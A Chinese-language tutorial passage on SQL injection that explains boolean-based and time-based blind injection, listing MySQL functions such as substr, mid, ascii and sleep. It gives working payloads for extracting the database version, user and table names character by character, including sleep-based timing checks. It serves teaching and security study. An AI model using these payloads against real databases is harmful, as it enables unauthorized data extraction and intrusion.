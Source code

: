 1. 在没有数据回显的情况下，可以存在不同的页面内容回显
2. 通常逐个爆破猜解，效率偏低
3. 思路：利用回显的不同推测SQL语句执行的结果是True还是False
4. payload：select * from users where user='xx' and pass>'123'#'
### 常用函数

ascii（）括号中的参数转化成相应的ascii码

substr（）substr(a,b,c)从b 位置开始，截取字符串a 的c 长度。

mid（）用法与substr（）类似

length（）返回str字符串的长度

left（database(),1） 取database字符串的左边第一个

### 实操

**爆出数据库版本：**

```sql
and mid(version(),1,1)=53
```
**爆出数据库用户：**
```sql
and ascii(mid(user(),1,1))>96
```
**爆出表名：**
```sql
and ascii(mid((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>96
```
## **时间盲注**

### 特点

1. 页面不存在不同回显，但SQL语句被执行
2. 逐个爆破猜解+时间延迟，效率最低
3. 利用：if (query=True) delay(1000);else pass;的程序逻辑，通过观察是否发生了时间延迟来推测SQL语句的执行情况是否为True
```sql
payload：If(ascii(substr(database(),1,1))>115,sleep(5),0)%23 //if 判断语句， 条件为假，执行 sleep
```
### 常用函数

if(a,b,c) a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

sleep（）执行挂起一段时间

利用方式：

```sql
and if(mid(version(),1,1)=1,sleep(10),1)
```
也可以和布尔盲注联合起来使用
# SQL注入-宽字节注入
